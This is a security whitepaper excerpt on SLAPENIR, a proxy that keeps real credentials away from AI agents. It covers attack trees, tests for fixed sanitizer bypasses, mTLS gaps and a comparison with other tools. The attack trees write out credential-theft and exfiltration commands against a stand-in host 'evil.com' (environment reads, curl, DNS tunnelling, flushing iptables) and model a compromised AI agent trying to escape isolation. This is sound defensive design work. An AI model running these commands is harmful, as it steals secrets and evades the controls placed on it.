The compromised agent adversary has full control over the agent process: memory, filesystem, environment variables, and child processes. This represents the most capable adversary that the system is designed to defeat.

```mermaid
flowchart TD
    ROOT["GOAL: Extract credentials<br/>from compromised agent"]
    ROOT --> C1["Read environment<br/>variables"]
    ROOT --> C2["Read process<br/>memory"]
    ROOT --> C3["Bypass network<br/>isolation"]
    ROOT --> C4["Direct HTTP to<br/>external service"]
    ROOT --> C5["DNS exfiltration"]

    C1 --> C1A["cat /proc/self/environ<br/>printenv OPENAI_API_KEY"]
    C1A --> FAIL1["BLOCKED: L1<br/>Agent sees only<br/>DUMMY_* placeholders"]

    C2 --> C2A["Read /proc/self/mem<br/>or coredump"]
    C2A --> C2B["Agent process has<br/>no real credentials"]
    C2B --> FAIL2["BLOCKED: L1 + L5<br/>Secrets never in<br/>agent address space"]

    C2 --> C2C["Read proxy memory<br/>across container boundary"]
    C2C --> C2D["Docker network isolation<br/>prevents cross-container<br/>memory access"]
    C2D --> FAIL3["BLOCKED: L2<br/>Container isolation"]

    C3 --> C3A["Modify iptables<br/>rules directly"]
    C3A --> C3B["Agent runs as<br/>non-root user"]
    C3B --> C3C["iptables requires<br/>CAP_NET_ADMIN"]
    C3C --> FAIL4["BLOCKED: L6<br/>No iptables capability"]

    C3 --> C3D["Use raw socket<br/>to bypass proxy"]
    C3D --> C3E["Docker internal: true<br/>blocks egress"]
    C3E --> FAIL5["BLOCKED: L2<br/>Network namespace isolation"]

    C4 --> C4A["curl https://evil.com<br/>with credential in body"]
    C4A --> C4B["Default DROP rule<br/>blocks all egress"]
    C4B --> FAIL6["BLOCKED: L6<br/>iptables default-deny"]

    C5 --> C5A["nslookup evil.com<br/>encode data in subdomain"]
    C5A --> C5B["DNS restricted to<br/>whitelist-only resolver"]
    C5B --> FAIL7["BLOCKED: L6<br/>DNS filtering"]

    style ROOT fill:#9b59b6,color:#fff
    style FAIL1 fill:#27ae60,color:#fff
    style FAIL2 fill:#27ae60,color:#fff
    style FAIL3 fill:#27ae60,color:#fff
    style FAIL4 fill:#27ae60,color:#fff
    style FAIL5 fill:#27ae60,color:#fff
    style FAIL6 fill:#27ae60,color:#fff
    style FAIL7 fill:#27ae60,color:#fff
```

**Verification test coverage:**

The `verify-network-isolation.sh` script validates all network-layer mitigations:

**Ref:** `agent/scripts/verify-network-isolation.sh:14-72`

```bash
iptables -L TRAFFIC_ENFORCE -n | grep -q "TRAFFIC_ENFORCE"
curl -s --max-time 5 https://www.google.com > /dev/null 2>&1
iptables -L TRAFFIC_ENFORCE -n | grep -q "DROP"
iptables -L TRAFFIC_ENFORCE -n | grep -q "LOG"
```

| Test | Check | Expected | Layer |
| --- | --- | --- | --- |
| Chain exists | `TRAFFIC_ENFORCE` in iptables | Present | L6 |
| Internet blocked | `curl google.com` | Failure (timeout) | L6 |
| DROP rule present | Default-deny rule | Present | L6 |
| LOG rule present | Audit logging rule | Present | L10 |
| Proxy accessible | `curl proxy:3000/health` | 200 OK | L2 |
| LLM accessible | `curl host.docker.internal:LLAMA_PORT` | 200 OK | L2 |

**Residual risk:** The compromised agent adversary has no viable path to real credentials because the zero-knowledge architecture (L1) ensures real secrets exist only in the proxy's address space. The network isolation (L2 + L6) prevents exfiltration even if the agent were to somehow obtain credentials (see [Section 6: Network Isolation Deep-Dive](#section-6-network-isolation-deep-dive) for iptables enforcement details). The strongest residual risk is a timing side-channel: the agent could infer credential length by observing proxy processing time differences between `sanitize()` (match found) and `sanitize()` (no match). This is mitigated by the cached automaton (Fix G in `sanitizer.rs:61-64`), which provides constant-time automaton traversal.

#### 2.4 Attack Tree: A4 — Insider Threat

The insider adversary has host-level access: can modify Docker configuration, environment files, and restart services. This represents a trusted-but-verified threat model.

```mermaid
flowchart TD
    ROOT["GOAL: Disable controls<br/>or access raw credentials"]
    ROOT --> I1["Modify .env files<br/>to inject real keys into agent"]
    ROOT --> I2["Disable iptables<br/>rules"]
    ROOT --> I3["Disable mTLS<br/>enforcement"]
    ROOT --> I4["Modify proxy<br/>configuration"]
    ROOT --> I5["Read proxy memory<br/>from host"]

    I1 --> I1A["Edit docker-compose.yml<br/>to pass real API keys"]
    I1A --> I1B["verify-zero-knowledge.sh<br/>detects mismatch"]
    I1B --> DETECT1["DETECTED: L10 + Verify<br/>Agent key != DUMMY_*"]

    I2 --> I2A["iptables -F<br/>TRAFFIC_ENFORCE"]
    I2A --> I2B["Metrics exporter<br/>detects chain missing"]
    I2B --> I2C["agent_network_isolation_status<br/>gauge drops to 0"]
    I2C --> DETECT2["DETECTED: L10<br/>Isolation status = 0<br/>Prometheus alert fires"]

    I3 --> I3A["Set MTLS_ENFORCE=false<br/>in proxy environment"]
    I3A --> I3B["mTLS client verification<br/>skipped on handshake"]
    I3B --> PARTIAL1["PARTIAL: mTLS enforcement<br/>is advisory, not enforced<br/>at application layer"]

    I4 --> I4A["Edit config.yaml<br/>to add malicious strategy"]
    I4A --> I4B["Config validation<br/>rejects unknown types"]
    I4B --> FAIL1["BLOCKED: Config<br/>Only bearer/aws_sigv4/hmac"]

    I4 --> I4C["Set ALLOW_BUILD=1<br/>to bypass restrictions"]
    I4C --> I4D["Proxy logs warning<br/>and restricts to build phase"]
    I4D --> PARTIAL2["PARTIAL: ALLOW_BUILD<br/>bypasses domain<br/>restrictions"]

    I5 --> I5A["docker exec proxy<br/>cat /proc/1/mem"]
    I5A --> I5B["Zeroize clears<br/>secrets on drop"]
    I5B --> PARTIAL3["PARTIAL: Timing window<br/>between secret use<br/>and zeroize"]

    style ROOT fill:#3498db,color:#fff
    style DETECT1 fill:#f39c12,color:#fff
    style DETECT2 fill:#f39c12,color:#fff
    style FAIL1 fill:#27ae60,color:#fff
    style PARTIAL1 fill:#f39c12,color:#fff
    style PARTIAL2 fill:#f39c12,color:#fff
    style PARTIAL3 fill:#f39c12,color:#fff
```

**Insider detection via verify-zero-knowledge.sh:**

**Ref:** `scripts/verify-zero-knowledge.sh:132-170`

The verification script performs six categories of checks to detect insider tampering:

| Test Category | Lines | Check | Detection Method |
| --- | --- | --- | --- |
| Agent credentials | 132-170 | All env vars are `DUMMY_*` | Pattern match `^DUMMY_` |
| Proxy credentials | 173-201 | Proxy has real credentials (not `DUMMY_*`) | Inverse pattern check |
| Proxy configuration | 204-223 | `HTTP_PROXY` points to `proxy:3000` | Exact value comparison |
| Credential isolation | 247-264 | Agent and proxy have different values | Inequality check |
| Environment file config | 267-301 | `.env.proxy` and `.env.agent` exist | File existence + YAML validation |
| Security best practices | 304-334 | Non-root execution, `.gitignore` coverage | User ID + file checks |

**Residual risk:** The insider can disable security controls at the infrastructure level (Docker, iptables, mTLS). Detection relies on the observability stack (L10) and verification scripts running outside the adversary's control. The `verify-zero-knowledge.sh` script must run from the host, not from within a container the insider controls. The mTLS enforcement gap (`mtls.rs:125-132`) means certificate validation is advisory rather than enforced at the application layer.

---

### 3. Security Bypass Test Coverage

#### 3.1 Vulnerability Test Matrix

The `security_bypass_tests.rs` file contains proof-of-concept tests for five documented vulnerabilities (A, B, D, E, G), each with a corresponding fix:

**Ref:** `proxy/tests/security_bypass_tests.rs:1-503`

| Vulnerability | ID | Module | Tests | Status | Fix Location |
| --- | --- | --- | --- | --- | --- |
| Non-UTF-8 sanitization bypass | A | `non_utf8_bypass` | 4 | Fixed | `sanitizer.rs:109-131` |
| Unsanitized headers and URLs | B | `header_url_sanitization` | 4 | Fixed | `sanitizer.rs:140-166` |
| Memory exhaustion (OOM) | D | `memory_limits` | 3 | Fixed | `proxy.rs:26-54` |
| Content-Length desync | E | `content_length_desync` | 3 | Fixed | `proxy.rs:109-146` |
| Automaton recreation overhead | G | `automaton_caching` | 1 | Fixed | `sanitizer.rs:61-64` |
| End-to-end integration | — | `integration` | 2 | Verified | Full pipeline |

#### 3.2 Vulnerability A: Non-UTF-8 Bypass

The original vulnerability allowed binary payloads containing secrets to pass through unsanitized because the `sanitize()` method required valid UTF-8 input.

**Attack vector:** An adversary crafts an API response with invalid UTF-8 bytes surrounding a real credential. The proxy's text-based sanitizer rejects the input, and the raw response containing real credentials is returned to the agent.

**Test cases:**

**Ref:** `proxy/tests/security_bypass_tests.rs:25-143`

| Test | Input | Secret Location | UTF-8 Status | Verification |
| --- | --- | --- | --- | --- |
| `test_binary_payload_with_embedded_secret` | PNG magic + secret + invalid UTF-8 | Middle of binary blob | Invalid | Window scan on sanitized bytes |
| `test_base64_secret_with_invalid_utf8` | Base64 + secret + `\xFF\xFE\xFD` | After base64 section | Invalid | Same window scan |
| `test_secret_split_across_chunks` | Full payload (simulating combined chunks) | Across chunk boundary | Valid | Same window scan |
| `test_mixed_utf8_sections` | Valid + invalid + valid sections | Two instances | Mixed | Window scan + redaction count == 2 |

**Fix implementation:**

**Ref:** `proxy/src/sanitizer.rs:109-131`

```rust
pub fn sanitize_bytes(&self, data: &[u8]) -> Cow<'_, [u8]> {
    let byte_patterns = AhoCorasickBuilder::new()
        .ascii_case_insensitive(false)
        .build(&self.real_secrets_bytes)
        .expect("Failed to build byte pattern matcher");

    let redacted: Vec<&[u8]> = self
        .real_secrets_bytes
        .iter()
        .map( | _ | b"[REDACTED]" as &[u8])
        .collect();

    byte_patterns.replace_all_bytes(data, &redacted).into()
}
```

The fix operates on raw `&[u8]` slices, bypassing UTF-8 validation entirely. The `replace_all_bytes()` method performs the same Aho-Corasick scan on byte sequences, guaranteeing credential removal regardless of encoding.

#### 3.3 Vulnerability B: Unsanitized Headers

The original vulnerability returned upstream response headers (Set-Cookie, Location, WWW-Authenticate, X-Debug-Token) without sanitization, allowing credentials embedded in header values to leak to the agent.

**Attack vector:** An upstream API response includes a `Set-Cookie: session=<real_secret>; Path=/` header or `Location: https://callback?token=<real_secret>` redirect. Without header sanitization, the agent receives the real credential.

**Test cases:**

**Ref:** `proxy/tests/security_bypass_tests.rs:149-263`

| Test | Header | Secret Value | Verification |
| --- | --- | --- | --- |
| `test_secret_in_response_header` | `x-custom-token` | `sk-leaked-in-header` | No header contains secret |
| `test_secret_in_cookie_header` | `set-cookie` | `session_secret_abc` | Cookie value sanitized |
| `test_secret_in_redirect_url` | `location` | `token_xyz789` | Redirect URL sanitized |
| `test_dangerous_headers_removed` | `x-debug-token`, `server-timing` | Debug metadata | Headers completely removed |

**Fix implementation:**

**Ref:** `proxy/src/sanitizer.rs:140-166`

```rust
pub fn sanitize_headers(&self, headers: &HeaderMap) -> HeaderMap {
    let mut sanitized = HeaderMap::new();
    for (name, value) in headers.iter() {
        let name_str = name.as_str();
        if Self::is_blocked_header(name_str) {
            tracing::debug!("Removing blocked header: {}", name_str);
            continue;
        }
        if let Ok(v) = value.to_str() {
            let sanitized_value = self.sanitize(v);
            if let Ok(hv) = HeaderValue::from_str(&sanitized_value) {
                sanitized.insert(name.clone(), hv);
                continue;
            }
        }
        sanitized.insert(name.clone(), value.clone());
    }
    sanitized
}
```

The blocked header list is defined at `sanitizer.rs:18-24`:

```rust
const BLOCKED_HEADERS: &[&str] = &[
    "x-debug-token",
    "x-debug-info",
    "server-timing",
    "x-runtime",
    "x-request-debug",
];
```

#### 3.4 Vulnerability D: Memory Exhaustion

The original vulnerability had no request/response body size limits, allowing an adversary to send oversized payloads to exhaust proxy memory (OOM), potentially causing a crash that dumps secrets to disk or swap.

**Test cases:**

**Ref:** `proxy/tests/security_bypass_tests.rs:269-301`

| Test | Check | Expected |
| --- | --- | --- |
| `test_proxy_config_defaults` | `max_request_size == 10MB`, `max_response_size == 100MB` | Default limits enforced |
| `test_proxy_config_custom` | Custom limits (1KB / 10KB) | Configurable per-deployment |
| `test_default_limits_reasonable` | `DEFAULT_MAX_REQUEST_SIZE == 10485760` | 10MB / 100MB defaults |

**Fix implementation:**

**Ref:** `proxy/src/proxy.rs:26-54`

```rust
pub const DEFAULT_MAX_REQUEST_SIZE: usize = 10 * 1024 * 1024;
pub const DEFAULT_MAX_RESPONSE_SIZE: usize = 100 * 1024 * 1024;

#[derive(Debug, Clone)]
pub struct ProxyConfig {
    pub max_request_size: usize,
    pub max_response_size: usize,
}
```

Size enforcement occurs at body collection time in `proxy_handler`:

**Ref:** `proxy/src/proxy.rs:230-239`

```rust
let body_bytes = axum::body::to_bytes(request.into_body(), max_request_size)
    .await
    .map_err( | e | {
        let err_str = e.to_string();
        if err_str.contains("length limit") {
            ProxyError::RequestBodyTooLarge(max_request_size)
        } else {
            ProxyError::RequestBodyRead(err_str)
        }
    })?;
```

#### 3.5 Vulnerability E: Content-Length Desynchronization

The original vulnerability forwarded the upstream `Content-Length` header unchanged after body sanitization. Since sanitization replaces secrets (variable length) with `[REDACTED]` (10 bytes), the `Content-Length` value becomes incorrect, causing HTTP desync — a potential request smuggling vector.

**Attack vector:** An upstream response contains a 32-byte secret in the body. Sanitization replaces it with `[REDACTED]` (10 bytes), reducing body size by 22 bytes. The stale `Content-Length: N+22` causes the agent's HTTP parser to wait for 22 more bytes that never arrive, or to interpret the beginning of the next response as trailing bytes of the current one.

**Test cases:**

**Ref:** `proxy/tests/security_bypass_tests.rs:307-383`

| Test | Check | Expected |
| --- | --- | --- |
| `test_content_length_recalculation` | Sanitized body length differs from original | `Content-Length` matches sanitized body |
| `test_transfer_encoding_removed` | `transfer-encoding: chunked` is removed | Prevents chunk/size conflict |
| `test_etag_removed_after_sanitization` | `etag` and `content-md5` are removed | Prevents integrity check failure |

**Fix implementation:**

**Ref:** `proxy/src/proxy.rs:109-146`

```rust
pub fn build_response_headers(original_headers: &HeaderMap, body_len: usize) -> HeaderMap {
    let mut headers = HeaderMap::new();
    headers.insert(
        axum::http::header::CONTENT_LENGTH,
        HeaderValue::from(body_len),
    );
    for (name, value) in original_headers.iter() {
        let name_str = name.as_str().to_lowercase();
        match name_str.as_str() {
            "content-length" | "transfer-encoding" => continue,
            "etag" | "content-md5" | "content-crc32" => continue,
            "x-debug-token" | "x-debug-info" | "server-timing" | "x-runtime" => continue,
            _ => {
                headers.insert(name.clone(), value.clone());
            }
        }
    }
    headers
}
```

#### 3.6 Vulnerability G: Automaton Caching

The original implementation rebuilt the Aho-Corasick sanitization automaton on every request, incurring O(M) construction cost where M is total pattern length. For 500 secrets with average 30-byte length, this added ~1-2ms per request — acceptable but wasteful.

**Test cases:**

**Ref:** `proxy/tests/security_bypass_tests.rs:389-431`

| Test | Check | Expected |
| --- | --- | --- |
| `test_automaton_caching_performance` | 1000 iterations with 50 secrets, <200us per call | Cached automaton avoids rebuild |

**Fix implementation:**

**Ref:** `proxy/src/sanitizer.rs:61-64`

```rust
let sanitize_patterns = AhoCorasickBuilder::new()
    .ascii_case_insensitive(false)
    .build(&real_secrets)
    .map_err( | e | format!("Failed to build sanitize pattern matcher: {}", e))?;
```

The `sanitize_patterns` automaton is built once during `SecretMap::new()` and reused for all subsequent `sanitize()` calls. This reduces per-request overhead from O(M) to O(1) setup + O(N) scan.

#### 3.7 Paranoid Double-Pass Verification

Beyond individual vulnerability fixes, the proxy implements a paranoid verification step that re-scans the sanitized output:

**Ref:** `proxy/src/proxy.rs:317-324`

```rust
let verification = state.secret_map.sanitize_bytes(&sanitized_body);
if verification != sanitized_body {
    tracing::error!("Secret sanitization failed verification!");
    return Err(ProxyError::ResponseBodyRead(
        "Sanitization verification failed".to_string(),
    ));
}
```

This fail-closed design means that any sanitization bug that leaves residual credential bytes in the output triggers an error response rather than a leak. The paranoid verification is tested in `security_bypass_tests.rs:489-502`:

```rust
#[test]
fn test_paranoid_verification() {
    let sanitized1 = map.sanitize_bytes(input);
    let sanitized2 = map.sanitize_bytes(&sanitized1);
    assert_eq!(sanitized1, sanitized2, "Sanitization should be idempotent");
}
```

---

### 4. TLS Security Analysis

#### 4.1 TLS Test Coverage

The `tls_acceptor_tests.rs` file validates the TLS MITM subsystem used for HTTPS interception:

**Ref:** `proxy/tests/tls_acceptor_tests.rs:1-242`

| Test | Purpose | Security Property |
| --- | --- | --- |
| `test_mitm_acceptor_basic_handshake` | Client-server TLS echo | Certificate validity, handshake completion |
| `test_mitm_acceptor_multiple_connections` | 3 concurrent connections | No certificate reuse across connections |
| `test_mitm_acceptor_different_hostnames` | Cert generation for different hosts | Unique serial numbers per hostname |
| `test_mitm_acceptor_certificate_reuse` | Same hostname, two requests | Certificate caching (same serial) |
| `test_mitm_acceptor_concurrent_certificate_generation` | 10 parallel cert generations | Thread-safe cert generation, all unique |
| `test_mitm_acceptor_custom_cache_capacity` | 10 certs in 5-entry cache | LRU eviction correctness |
| `test_mitm_acceptor_sync_send` | Type trait verification | `MitmAcceptor` is `Send + Sync` |

#### 4.2 Certificate Authority Security

**Ref:** `proxy/src/tls/ca.rs:19-49`

```rust
pub fn generate() -> Result<Self, TlsError> {
    let mut params = CertificateParams::default();
    params.distinguished_name.push(DnType::CommonName, "SLAPENIR Proxy CA");
    params.distinguished_name.push(DnType::OrganizationName, "SLAPENIR");
    params.is_ca = IsCa::Ca(BasicConstraints::Unconstrained);
    ...
}
```

| Property | Value | Security Implication |
| --- | --- | --- |
| CA type | Self-signed root | Trusted only within Docker network |
| Key algorithm | ECDSA P-256 | Modern, efficient, quantum-resistant migration path |
| Basic constraints | `Unconstrained` | CA can sign intermediate CAs (future extensibility) |
| Serial numbers | Timestamp + counter | Unique per certificate, prevents replay |
| SAN matching | Per-hostname | Prevents certificate reuse across domains |
| Cache size | 1000 entries | LRU eviction after capacity |

#### 4.3 mTLS Security Gap Analysis

The mTLS implementation has a documented enforcement gap:

**Ref:** `proxy/src/mtls.rs:111-135`

```rust
pub async fn verify_client_cert(
    State(_state): State<AppState>,
    request: Request,
    next: Next,
) -> Result<Response, StatusCode> {
    if _state.mtls_enforce {
        tracing::warn!(
            "mTLS enforcement requested but client certificate extraction not yet implemented"
        );
    }
    Ok(next.run(request).await)
}
```

| Gap | Impact | Mitigation |
| --- | --- | --- |
| Client cert not extracted | mTLS advisory, not enforced | Network isolation (L2) compensates |
| mTLS disabled by default | `MTLS_ENABLED=false` | Production config must enable |
| Config failure does not halt | Proxy starts without mTLS | Fail-closed design recommended |
| TLS listener not integrated | Proxy serves plain HTTP | Docker network provides transport encryption |

The mTLS gap is partially compensated by the Docker bridge network (`internal: true`), which prevents unauthorized network access at the infrastructure level. In a Kubernetes deployment, a service mesh (Istio/Linkerd) would provide the equivalent enforcement.

---

### 5. Comparative Analysis

#### 5.1 Feature Comparison Matrix

| Feature | SLAPENIR | HashiCorp Vault Agent | AWS IAM Roles Anywhere | K8s NetworkPolicies | Envoy Sidecar |
| --- | --- | --- | --- | --- | --- |
| **Zero-knowledge (agent never sees creds)** | Yes — DUMMY_* placeholders, real creds only in proxy | No — Agent receives credentials via Vault Agent cache | Partial — Temporary credentials delivered to workload | No — Network-level only | No — Sidecar forwards, workload sees creds |
| **Network isolation (default-deny egress)** | Yes — iptables + Docker `internal: true` | No — Requires external firewall/NSM | No — IAM is identity, not network | Yes — Pod-level egress rules | Partial — Sidecar intercepts, pod can bypass |
| **Response sanitization** | Yes — Aho-Corasick body + headers + binary | No — Vault Agent provides creds, does not sanitize responses | No — Credential delivery only | No — L3/L4 only | Partial — Lua/WASM filters, manual |
| **Memory protection (zeroize)** | Yes — Rust Zeroize + ZeroizeOnDrop | Partial — Go runtime GC, no deterministic wipe | No — Credentials in process memory | No — Not applicable | No — C++ runtime, no zeroize |
| **Air-gapped LLM support** | Yes — Local llama.cpp with no internet | No — Vault requires network connectivity | No — Requires STS endpoint | No — Not applicable | No — Requires upstream connectivity |
| **DNS exfiltration prevention** | Yes — Whitelist-only DNS resolver | No — Vault Agent does not filter DNS | No — Not a DNS filter | Partial — Can block DNS egress | Partial — DNS filter via custom filter |
| **Supply chain security** | Yes — cargo-deny + cargo-audit | Partial — Vault binary is trusted, plugins are not audited | No — AWS SDK is trusted | No — Not applicable | Partial — Envoy binary is trusted |
| **Binary-safe sanitization** | Yes — `sanitize_bytes()` on raw `&[u8]` | No — Vault Agent delivers secrets as strings | No — Not applicable | No — Not applicable | No — Envoy filters operate on HTTP level |
| **Fail-closed design** | Yes — Paranoid double-pass verification | Yes — Vault seal on error | Partial — Credential rotation on failure | Yes — Default deny | Partial — Depends on filter config |
| **Deployment complexity** | Low — Docker Compose, single config | High — Vault cluster, raft storage, unsealing | Medium — IAM Roles Anywhere setup, trust anchor | Medium — CNI plugin required, policy authoring | High — Sidecar injection, xDS control plane |
| **Credential rotation** | Manual — Restart proxy with new .env | Automatic — Dynamic secrets with lease renewal | Automatic — STS AssumeRole with 1hr max | N/A | N/A |
| **Streaming sanitization** | No — Full body buffering | N/A | N/A | N/A | Yes — Envoy stream filters |
| **SIEM integration** | No — Structured logs only | Yes — Vault audit logs, syslog | Yes — CloudTrail integration | No — Pod logs only | Yes — Access logging, ALS |

#### 5.2 Comparative Analysis Diagram

```mermaid
flowchart LR
    subgraph "Zero-Knowledge Credential Isolation"
        SL1["SLAPENIR<br/>DUMMY_* in agent<br/>Real in proxy<br/>Binary sanitization"]
        VA1["Vault Agent<br/>Real creds in agent<br/>Cache on filesystem<br/>No sanitization"]
        IAM1["AWS IAM<br/>Temporary creds<br/>Delivered to workload<br/>No sanitization"]
    end

    subgraph "Network Enforcement"
        SL2["SLAPENIR<br/>iptables default-deny<br/>Docker internal:true<br/>DNS whitelist"]
        NP2["K8s NetPol<br/>Pod-level egress<br/>CNI-dependent<br/>No DNS filter"]
        EN2["Envoy Sidecar<br/>L7 interception<br/>Bypassable via raw socket<br/>DNS filter via config"]
    end

    subgraph "Response Sanitization"
        SL3["SLAPENIR<br/>Aho-Corasick O(N)<br/>Body + Headers + Binary<br/>Paranoid verify"]
        EN3["Envoy Sidecar<br/>Lua/WASM filter<br/>Manual rule authoring<br/>No binary support"]
    end

    SL1 --> | Unique | DIFF1["Only system where<br/>agent NEVER sees<br/>real credentials"]
    SL3 --> | Unique | DIFF2["Only system with<br/>automatic credential<br/>removal from responses"]

    style SL1 fill:#27ae60,color:#fff
    style SL2 fill:#27ae60,color:#fff
    style SL3 fill:#27ae60,color:#fff
    style VA1 fill:#e67e22,color:#fff
    style IAM1 fill:#e67e22,color:#fff
    style NP2 fill:#f39c12,color:#fff
    style EN2 fill:#f39c12,color:#fff
    style EN3 fill:#f39c12,color:#fff
    style DIFF1 fill:#3498db,color:#fff
    style DIFF2 fill:#3498db,color:#fff
```

#### 5.3 Defense-in-Depth Comparison

| Attack | SLAPENIR Layers | Vault Agent | AWS IAM | K8s NetPol | Envoy |
| --- | --- | --- | --- | --- | --- |
| Credential theft from env vars | L1 (zero-knowledge) | Not prevented | IAM_ROLE prevents env vars | Not prevented | Not prevented |
| Credential theft from memory | L1 + L5 (zeroize) | Partial (Go GC) | Not prevented | Not applicable | Not prevented |
| HTTP exfiltration | L2 + L4 + L6 + L7 | Vault Agent provides creds legitimately | IAM provides creds legitimately | NetPol blocks egress | Sidecar intercepts |
| DNS exfiltration | L6 (whitelist) | Not prevented | Not prevented | Partial (block port 53) | Custom filter needed |
| Binary payload bypass | L4 (sanitize_bytes) | Not applicable | Not applicable | Not applicable | Not applicable |
| Header leakage | L7 (sanitize_headers) | Not prevented | Not prevented | Not prevented | Custom filter needed |
| MITM on local network | L3 (mTLS) | Vault uses mTLS | IAM uses TLS | Not prevented | mTLS via service mesh |
| Memory forensic recovery | L5 (zeroize) | Not prevented | Not prevented | Not prevented | Not prevented |
| Insider disables controls | L10 (audit) | Vault audit log | CloudTrail | K8s audit | Envoy access log |
| Supply chain compromise | deny.toml + audit.toml | Vault plugin risk | AWS SDK risk | Container image risk | Envoy filter risk |

#### 5.4 Deployment Trade-offs

| Dimension | SLAPENIR | Vault Agent | AWS IAM | K8s NetPol | Envoy |
| --- | --- | --- | --- | --- | --- |
| Setup time | 10 minutes (Docker Compose) | 2-4 hours (cluster + unseal) | 1-2 hours (trust anchor + role) | 30 minutes (CNI + policies) | 4-8 hours (control plane + xDS) |
| Operational overhead | Low (2 containers) | High (3-5 node cluster) | Low (AWS managed) | Medium (policy maintenance) | High (control plane + versioning) |
| Credential rotation | Manual restart | Automatic (dynamic secrets) | Automatic (STS) | N/A | N/A |
| Multi-cloud | Yes (Docker) | Yes | AWS only | Yes (K8s) | Yes |
| Cost | Open source | Enterprise license | AWS charges | Free (K8s) | Open source |

---

### 6. Known Vulnerabilities & Gaps

#### 6.1 Security Gap Inventory

| ID | Gap | Severity | Layer | Location | Mitigation |
| --- | --- | --- | --- | --- | --- |
| GAP-01 | mTLS client cert not enforced | Medium | L3 | `mtls.rs:125-132` | Docker network isolation compensates |
| GAP-02 | mTLS config failure does not halt startup | Medium | L3 | `main.rs:148-154` | Production config must validate certs before deploy |
| GAP-03 | Proxy serves plain HTTP (no TLS listener) | Low | L3 | `main.rs:84-86` | Docker bridge network provides isolation |
| GAP-04 | `real_secrets_bytes` not zeroized | Low | L5 | `sanitizer.rs:39-41` | Derived data, same scope as parent struct |
| GAP-05 | No streaming sanitization | Medium | L7 | `proxy.rs:293-302` | Full body buffering required for Aho-Corasick |
| GAP-06 | No WebSocket frame sanitization | Medium | L7 | WP-04:651 | WebSocket not used in current architecture |
| GAP-07 | ALLOW_BUILD bypasses domain restrictions | Medium | L6 | `main.rs:57-64` | Build phase only, logged as warning |
| GAP-08 | No SIEM integration | Low | L10 | WP-10 | Structured logs can be forwarded |
| GAP-09 | No real-time alerting | Low | L10 | WP-10 | Prometheus alertmanager recommended |
| GAP-10 | 100MB response limit allows memory pressure | Low | L8 | `proxy.rs:28` | Configurable via `ProxyConfig` |

#### 6.2 Effectiveness Matrix by Adversary

| Defense Layer | A1: Prompt Injection | A2: Malicious Dep | A3: Compromised Agent | A4: Insider |
| --- | --- | --- | --- | --- |
| L1: Zero-Knowledge | Blocks | Blocks | Blocks | Detects |
| L2: Network Isolation | N/A | Partial | Blocks | N/A |
| L3: mTLS | N/A | N/A | N/A | Partial |
| L4: Credential Sanitization | Blocks | N/A | Blocks | N/A |
| L5: Memory Safety | N/A | Blocks | Blocks | Partial |
| L6: Traffic Enforcement | N/A | Blocks | Blocks | Detects |
| L7: Response Sanitization | Blocks | N/A | Blocks | N/A |
| L8: Size Limits | N/A | N/A | Partial | N/A |
| L9: Content-Length | N/A | N/A | N/A | N/A |
| L10: Observability | Detects | Detects | Detects | Detects |

| Legend | Meaning |
| --- | --- |
| **Blocks** | Layer prevents the attack entirely |
| **Partial** | Layer provides partial protection (see gap analysis) |
| **Detects** | Layer detects the attack but does not prevent it |
| **N/A** | Attack vector does not apply to this layer |

#### 6.3 Risk Assessment Summary

| Risk | Likelihood | Impact | Overall | Priority |
| --- | --- | --- | --- | --- |
| Prompt injection credential leak | Low (blocked by L1 + L4 + L7) | Critical | Low | P3 |
| Supply chain backdoor | Medium (partially mitigated) | High | Medium | P2 |
| Compromised agent credential theft | Very Low (blocked by all layers) | Critical | Low | P3 |
| Insider disables controls | Medium (detectable by L10) | High | Medium | P2 |
| mTLS enforcement bypass | Low (requires host access) | Medium | Low | P3 |
| Timing side-channel on sanitization | Very Low (constant-time automaton) | Low | Very Low | P4 |
| Memory forensic recovery | Low (zeroize clears secrets) | Medium | Low | P3 |

---

### Key Takeaways

1. **The zero-knowledge architecture (L1) is the foundational security property.** Every other defense layer exists to protect the proxy's secret store and ensure sanitized output. The four adversary profiles are all ultimately defeated by the fact that the agent never possesses real credentials — environment variables contain `DUMMY_*` placeholders, process memory has no real secrets, and network isolation prevents any path to the proxy's address space.

2. **Five documented vulnerabilities have been fixed with proof-of-concept test coverage.** Non-UTF-8 bypass (Fix A: `sanitize_bytes()`), unsanitized headers (Fix B: `sanitize_headers()`), memory exhaustion (Fix D: `ProxyConfig` size limits), Content-Length desync (Fix E: `build_response_headers()`), and automaton performance (Fix G: cached automaton). The paranoid double-pass verification in `proxy.rs:317-324` provides a fail-closed safety net against any remaining sanitization bugs.

3. **SLAPENIR provides unique protection that no single alternative offers.** HashiCorp Vault Agent delivers real credentials to the workload. AWS IAM delivers temporary credentials in plaintext. Kubernetes NetworkPolicies operate at L3/L4 without application awareness. Envoy sidecars require manual filter authoring. SLAPENIR combines zero-knowledge credential isolation, automatic credential removal from responses, binary-safe sanitization, and deterministic memory zeroization in a single system.

4. **The mTLS enforcement gap is the most significant known vulnerability.** The `verify_client_cert` middleware at `mtls.rs:125-132` does not reject requests even when `MTLS_ENFORCE=true`. This is compensated by Docker network isolation (L2) but would be a critical gap in a Kubernetes deployment without a service mesh. Production deployments should integrate mTLS enforcement with the TLS listener or use an external service mesh.

5. **Supply chain security is partially addressed through cargo-deny and cargo-audit.** The `deny.toml` configuration enforces license allowlists, advisory database checks, and duplicate crate warnings. The `audit.toml` configuration ignores RUSTSEC-2023-0071 (MySQL Marvin attack) with documented justification. System-level packages (Wolfi apk) are not covered by these tools and require separate image scanning (Trivy, Grype).

---

# Section 13: Future Roadmap & Recommendations

### Overview

This document presents the forward-looking roadmap for SLAPENIR, synthesized from the gap analysis conducted across all twelve preceding whitepapers. It consolidates 96 identified gap items, 10 source-level TODOs, and 3 GitHub security scan findings into a prioritized implementation plan organized across four phases: Hardening (Q3 2026), Capability (Q4 2026), Enterprise (Q1 2027), and Scale (Q2 2027). Each recommendation maps to specific security layers, includes implementation complexity estimates, and references the gap identifiers defined in WP-12.

---

### 1. Gap Analysis Summary

#### 1.1 Gap Distribution by Layer

The 96 identified gap items distribute across the 10-layer security architecture as follows:

| Layer | Gap Count | Critical | Medium | Low | Key Deficiency |
| --- | --- | --- | --- | --- | --- |
| L1: Zero-Knowledge | 2 | 0 | 0 | 2 | Developer discipline for DUMMY_* usage |
| L2: Network Isolation | 1 | 0 | 0 | 1 | `internal:false` for local LLM access |
| L3: mTLS Authentication | 6 | 4 | 2 | 0 | Client cert not enforced (GAP-01) |
| L4: Credential Sanitization | 0 | 0 | 0 | 0 | No open gaps |
